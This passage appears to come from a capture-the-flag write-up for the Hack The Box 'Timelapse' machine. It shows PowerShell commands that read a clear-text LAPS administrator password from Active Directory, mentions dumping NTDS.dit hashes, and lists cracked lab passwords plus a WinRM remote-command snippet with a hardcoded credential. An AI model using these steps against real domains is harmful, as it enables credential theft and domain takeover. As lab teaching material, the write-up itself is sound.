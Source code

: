<img src="https://i.imgur.com/iBfPKpt.png"/>

<img src="https://i.imgur.com/PgxZjtz.png"/>

Alternatively we can get the clear text password through `AD-Module` which already comes installed with LAPS, we can check if it's available through `Get-Module -Name ActiveDirectory -ListAvailable` and then import it with `Import-Module -Name ActiveDirectory`

<img src="https://i.imgur.com/hSvYUXr.png"/>

I came across this post in configuring LAPS

https://adsecurity.org/?p=3164

So checking in which attribute we can find the clear text LAPS password

<img src="https://i.imgur.com/Maei0He.png"/>

```bash
Get-ADComputer -Identity "dc01" -Properties "ms-mcs-AdmPwd"
```

<img src="https://i.imgur.com/qNByajZ.png"/>

Being an administrator on domain controller we can then dump hashes from NTDS.dit file 

<img src="https://i.imgur.com/DEZmd6X.png"/>

<img src="https://i.imgur.com/hI6BI9e.png"/>

## References

- https://www.varonis.com/blog/microsoft-laps
- https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file
- https://github.com/BloodHoundAD/SharpHound
- https://www.hackingarticles.in/credential-dumpinglaps/


```
archive : supremelegacy
pfx : thuglegacy

`--CollectionMethod All --Domain timelapse.htb `

$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
```
